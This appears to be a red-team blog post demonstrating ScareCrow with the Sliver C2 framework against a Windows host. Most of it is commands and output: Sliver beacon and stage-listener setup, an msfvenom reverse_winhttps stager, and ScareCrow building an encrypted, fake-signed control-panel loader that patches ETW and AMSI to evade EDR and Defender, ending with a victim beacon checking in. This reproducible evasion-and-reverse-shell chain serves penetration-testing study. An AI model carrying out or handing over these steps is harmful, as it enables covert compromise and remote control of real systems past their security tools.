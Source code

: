 ```yaml
---
layout: post
title: ScareCrow 
subtitle: Using ScareCrow to Side Load Sliver Shell Code
#thumbnail-img: /assets/img/nunchucks.png
tags: [SLIVER]
---
```


# ScareCow
ScareCrow serves as a framework designed for generating payloads that can be sideloaded, rather than injected, into a legitimate Windows process. This sideloading approach allows it to bypass Application Whitelisting controls. After the DLL loader is loaded into memory, it employs a method to eliminate any hooks placed by an EDR (Endpoint Detection and Response) system within the system DLLs running in the process's memory. This technique is effective because EDR hooks are typically applied when a process is initially spawned.

In this short blog post I will generate some some shell code from the Sliver C2 framework. I'll then pass it through ScareCrow to receive a loader, equipped with common EDR evasion tactics. I'll then execute it on a updated windows host to get a call back. Once nice notable tatic that ScareCrow employs AES encryption to secure the raw shellcode. This step is crucial in preventing static detection when a security product scans the generated loader on disk. Notably, Windows Defender is pretty good at detecting shell code
# Demo
I'll start off by configuring my Sliver Sliver server to listen for connections and host the shellcode

Lets create our profile and start the job. This will be our stage 2 payload 
```
sliver > profiles new beacon --mtls 10.10.1.49:443 --evasion -f shellcode --jitter 4 --arch amd64 --os Windows crow
[*] Saved new implant profile (beacon) crow

sliver > mtls --lhost 10.10.1.49 --lport 443
[*] Starting mTLS listener ...
[*] Successfully started job #1
```

Next I'll create a new listener that the initial connection from the victim will come to.
```
sliver > stage-listener --url https://10.10.1.49:8443 --profile crow --prepend-size

[*] Sliver name for profile: CHEMICAL_PINEAPPLE
[*] Job 2 (https) started
```

On kali using `msfvenom` we can create some shell code that ScareCrow will use. Per the Sliver documentation I used `winhttps` as `win_http` does not work at this time.
```
┌──(root㉿kali)-[~/sliver]
└─# msfvenom -p windows/x64/custom/reverse_winhttps LHOST=10.10.1.49 LPORT=8443 LURI=/crow.woff -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 992 bytes
Saved as: shellcode.bin
```

Then I used `ScareCrow` to put generate a control panel applet that will load the loader into memory and execute the shell code.
```
┌──(root㉿kali)-[/opt/ScareCrow]
└─# ./ScareCrow -I /root/sliver/shellcode.bin -domain microsoft.com -Loader control

  _________                           _________
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     /
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/
        \/     \/     \/            \/        \/
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle.
        Fear is a TEACHER. the first one you ever had.”

[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2741 milliseconds
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With bthprop's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing bthprop.dll With a Fake Cert
[+] Signed File Created
[+] bthprop.cpl File Ready
[!] Sha256 hash of bthprop.cpl: 36dc05d689a2efabff6adb8126bf9b7f6cd0b67878b539b138e8e257b619100c
```

With everything set up I transferred the `.cpl` file over to the victim machine and then executed it

![[Pasted image 20230515224057.png]]

Back on the Sliver Server a new beacon checks in
```
[*] Beacon b14e0ce6 CHEMICAL_PINEAPPLE - 10.10.1.47:55464 (Workstation) - windows/amd64 - Mon, 15 May 2023 22:40:36 MDT

sliver >
```
